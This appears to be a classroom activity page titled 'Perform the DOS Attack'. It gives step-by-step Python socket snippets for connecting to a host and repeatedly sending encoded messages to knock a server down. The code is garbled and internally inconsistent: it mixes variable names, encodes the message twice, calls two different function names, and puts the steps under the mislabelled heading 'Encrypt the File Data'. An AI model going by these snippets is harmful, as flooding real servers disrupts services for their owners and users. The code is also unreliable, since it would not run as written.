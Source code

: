 Perform the DOS Attack
======================
In this activity, you will learn how the DOS attacks are made by the attacker on the server by sending encoded messages unnecessarily.




<img src= "https://s3.amazonaws.com/media-p.slid.es/uploads/2071954/images/10973669/Slide_8_v2.gif" width = "auto" height = "auto">




Follow the given steps to complete this activity.




1. Encrypt the File Data
* Open the file `main.py`.
* Fetch the IP address of the host using the .gethostbyname() method.


```
ip = socket.gethostbyname(host)


```
.
* Create a TCP socket and connect it to the port.
```
ddos = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ddos.connect((ip_address, port))


```
* Create a random URL and store the encoded message.


```
random_url = get_random_url()


message = json.dumps(random_url).encode()


```
* Send messages using .send() and .sendto() methods.


```
ddos.send(message.encode())    ddos.sendto(message.encode(), (ip, port))
ddos.send(message.encode()) 


```


* Perform the DOS attack by calling the ddos() function. Close the connection.


```
ddos_attack(host, ip)
ddos.close()


```


* Save and run the code to check the output.
